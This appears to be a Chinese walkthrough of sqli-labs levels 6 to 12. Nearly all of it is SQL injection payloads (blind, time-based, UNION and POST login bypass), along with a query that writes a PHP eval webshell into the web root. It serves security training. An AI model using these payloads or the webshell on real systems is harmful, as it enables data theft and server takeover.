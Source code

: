 ![](https://ae01.alicdn.com/kf/Hb883745ed1ce492a884339e7de533bdcx.jpg)

![](https://ae01.alicdn.com/kf/Hf27fa54ffcc54c9984fac57c3f57351c4.jpg)

- 第六关（盲注）
```
1" and left(version(),1)=5 --+
```


- 第七关
```
?id=1'))UNION SELECT 1,2,'<?php @eval($_post[“mima”])?>' into outfile "c:\\wamp\\www\\sqllib\\Less-7\\yijuhua.php"--+
```
![](https://ae01.alicdn.com/kf/H844a3c2b8fde4386aaa6b6c9f3a59e12M.jpg)

- 第八关

```
id=1'and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```

![](https://ae01.alicdn.com/kf/H0112f5ad375745818885eaaa69e7519c5.jpg)

- 第九关

```
id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)
```

![](https://ae01.alicdn.com/kf/He5d4b152525840af9d31a17ac0965f5fl.jpg)

- 第十关

```
id=1" and if(ascii(substr(database(),1,1))=115,sleep(5),1) --+
```

![](https://ae01.alicdn.com/kf/H283cf3f0d9274d558c8622a7e1053947J.jpg)

- 第十一关（POST开始）

```
uname=admin
&passwd=-admin' union select 1,(select group_concat(schema_name) from information_schema.schemata) #
&submit=Submit
```
![](https://ae01.alicdn.com/kf/H5ea3fe9be0c44a20abbd27a43601437f9.jpg)

- 第十二关 

```
uname=admin
&passwd=-admin") union select 1,(select group_concat(schema_name) from information_schema.schemata) #
&submit=Submit
```
![](https://ae01.alicdn.com/kf/H76a3d8e0f5f7483783d75d3938a4868a9.jpg)
